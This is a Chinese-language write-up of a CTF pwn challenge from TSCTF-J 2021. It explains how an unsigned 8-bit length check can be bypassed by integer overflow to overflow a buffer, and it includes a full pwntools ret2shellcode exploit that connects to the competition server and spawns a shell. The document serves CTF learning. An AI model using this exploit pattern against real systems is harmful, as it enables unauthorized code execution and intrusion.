```yaml
---
title: 「TSCTF-J_2021」Pwn - Int_Or_Char WriteUp
tags: ['TSCTF-J_2021', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


## 题目

### 初步确定思路

使用`checksec`查看一下文件，发现并没有开启NX和PIE，则初步考虑ret2text和ret2shellcode

![checksec](https://cdn.novanoir.moe/img/image-20211025175327904.png)

<!--truncate-->

### 分析代码

直接跳到`pwn()`函数开始看吧

```c
int pwn()
{
  char s[50]; // [esp+Dh] [ebp-3Bh] BYREF
  unsigned __int8 v2; // [esp+3Fh] [ebp-9h]

  puts("Plz input ur passwd:");
  puts("Tip: The passwd length needs to be between 4 and 8 characters");
  gets(s);
  v2 = strlen(s);
  return check(v2, s);
}
```

注意到`gets(s)`并没有限定长度，可以考虑在这里栈溢出。

来到`check(v2, s)`函数

```c
char *__cdecl check(int a1, char *src)
{
  if ( (unsigned __int8)a1 <= 3u || (unsigned __int8)a1 > 8u )
  {
    puts("So bad!");
    puts("The passwd length needs to be between 4 and 8 characters");
    exit(0);
  }
  puts("good length!");
  return strcpy(passwd_buf, src);
}
```

这里要求我们的长度`a1 > 3 && a1 <= 8`，如果是这样的话我们很明显无法构造出我们想要的payload, 这里可以参考攻防世界的[Int_Overflow](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5058&page=1)的writeups提到的**整数溢出漏洞**

> 一个通俗易懂的C语言例子
>
> 对于一个`2字节的unsigned short int型变量`，当它的数据长度超过2字节时，就会溢出，使用的数据也仅仅是最后两个字节
>
> ```c
> int main()
> {
> unsigned short int var1 = 1, var2 = 257; //var1 = 0x
> if (var1 == var2)
> {
> printf("溢出");
> }
> return 0;
> }
> ```
>
> ```shell
> Out:
> 	溢出
> ```

回到我们这题， 我们的`v2`是一个`unsigned __int8`的变量, 这意味着它的取值范围只有`0~255`那如果我们传入一个长度为*256*的数据，`v2`的值其实就变成了*1*(255 + 1), 这样一来，我们传入的长度可以到`(255+4)~(255+8)`也就是*259-263*个字符。

好的，绕过了字符长度检查，接下来又应该怎么利用这个漏洞呢？

```c
char *strcpy(char *dest, const char *src);
```

这是`strcpy`的原型, 也就是说, `src`的内容会拷贝到`dest`所在的地址上，也就是题目中的`passwd_buf`处

![passwd_buf地址](https://cdn.novanoir.moe/img/image-20211025194709773.png)

我们来看一下栈堆

![stack of check](https://cdn.novanoir.moe/img/image-20211025192814285.png)

这里我贴上Mark大爹的讲解：

![性感Mark在线教学](https://cdn.novanoir.moe/img/image-20211025192651649.png)

> 理解较浅，原因什么的按下不表，等我去把Pwn入门了把栈整明白了再说（）

前面提到，因为NX没开，所以我们的buf是**可执行**的，这也给了我们使用`shellcode`的条件，而且我们并没有调用系统指令的函数存在，因此必须糙一个shellcode出来

```python
from pwn import *

context(os='linux', arch='i386', log_level='debug') # 指定了目标是32位系统, 下文

shellcode = asm(shellcraft.sh()) # 生成shellcode
buf_addr = 0x804A060 # buf地址
# print(shellcode)

payloadd = shellcode.ljust(0x3b, b'A') + b'A'*4 + p32(buf_addr) # 我们先把shellcode左对齐到栈底，再加上4字节的数据干掉rbp, 再加上p32(buf_addr) 即可跳转到buf_addr执行，也就是我们的shellcode
payloadd = payloadd + b'A'*(262-len(payloadd)) # 补齐payload以实现整数溢出漏洞
# print(len(payloadd))
# print(payloadd)
p = remote("45.82.79.42", 11001)

p.recvuntil("characters")
p.sendline(payloadd)
p.interactive()
# 此时已经拿到了shell, 该干什么就不用多说了8

```

> 在本WriteUp编写之前服务器已经shutdown了，所以没有获得shell之后的过程啦

### 个人总结

虽然在做这题的时候虽然整数溢出这个很快就实现了，如何运行shellcode却卡了很久（原因就是到达了栈底之后还要覆盖掉rbp才能跳转，在这之前我完全不理解为什么）

Pwn真是太有意思辣

## 参考资料

[ret2shellcode](https://blog.csdn.net/qq_45691294/article/details/111387593)

Mark大爹
